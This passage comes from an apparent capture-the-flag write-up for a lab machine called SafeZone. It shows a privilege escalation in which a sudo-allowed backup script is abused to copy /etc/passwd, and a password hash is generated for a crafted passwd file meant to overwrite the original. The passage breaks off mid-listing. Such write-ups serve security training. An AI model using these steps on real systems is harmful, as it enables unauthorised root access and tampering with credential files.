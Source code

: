 ### yash to root

**Sudo permission:**
```
yash@safezone:/opt$ sudo -l
Matching Defaults entries for yash on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py
```

**We can run `/usr/bin/python3 /root/bk.py` as root without password!**
```
yash@safezone:/opt$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /etc/passwd
Enter destination: /tmp/passwd.bak
Enter Password: anything
```

```
yash@safezone:/opt$ ls -lah /tmp
[...]
-rw-r--r--  1 root  root  1.7K Dec 30 14:08 passwd.bak
```

```
yash@safezone:/opt$ cat /tmp/passwd.bak  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[...]
```

Got ya, I see your trick.

**This `bk.py` is basically copying file to a new place.**

**Now, what if I copy a malicious `passwd` file, and then override the original `/etc/passwd`?**

- Generate `passwd`'s password hash:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# openssl passwd password
$1$TBtvdgJG$guxWNCxXjIE4ATrmP2pIE1
```

- Create a malicious `passwd` file

```
yash@safezone:/opt$ cd /dev/shm
yash@safezone:/dev/shm$ nano passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```
